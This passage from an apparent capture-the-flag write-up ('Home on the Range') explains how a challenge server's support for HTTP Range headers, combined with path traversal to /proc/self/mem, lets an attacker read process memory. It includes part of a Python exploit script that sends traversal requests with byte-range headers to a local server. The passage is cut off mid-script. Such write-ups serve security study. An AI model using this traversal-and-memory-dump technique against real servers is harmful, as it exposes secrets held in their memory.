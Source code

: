 then we can use the obtained memory address ranges to read memory regions, sending an http request to /proc/self/mem ([docs](https://unix.stackexchange.com/a/6302)) with RANGE header

looking at the [SOURCE](./src/server.py) we notice that the server accepts the RANGE header ([Range header docs](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Range))
```
The Range HTTP request header indicates the parts of a resource that the server should return. Several parts can be requested at the same time in one Range header, and the server may send back these ranges in a multipart document. If the server sends back ranges, it uses the 206 Partial Content status code for the response. If the ranges are invalid, the server returns the 416 Range Not Satisfiable error.
```
![]({{ page.img_dir | relative_url }}/Home_on_the_Range/images/3.jpg)

![]({{ page.img_dir | relative_url }}/Home_on_the_Range/images/4.jpg)

So to "dump" the entire process memory I used this python [script]({{ page.img_dir | relative_url }}/Home_on_the_Range/src/exploit.py) : 

```python

import requests
import socket

def send_http_request(host, port, request): # we use Socket module instead of Request module because the HTTP response has a Content-Length: 0 so Request ignores the content of the response
    
    client_socket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    
    try:
        client_socket.connect((host, port))

        client_socket.sendall(request.encode())
        response = b''
        while True:
            part = client_socket.recv(4096)
            if not part:
                break
            response += part
        
        return response.decode()
    
    finally:
        client_socket.close()


def read_mem_range(start, end):
    url = "http://localhost:3000/../../../../../../../../../../../../../proc/self/mem"
    headers = {
        "Host": "localhost:3000",
        "Range": f"bytes={start}-{end}",
        "Connection": "close"
    }
    s = requests.Session()
    r = requests.Request(method='GET',url=url, headers=headers)
    prep = r.prepare()
    prep.url = url 
   
    response=s.send(prep)
    return response.content

def main():
    host = "localhost"
    port = 3000
```
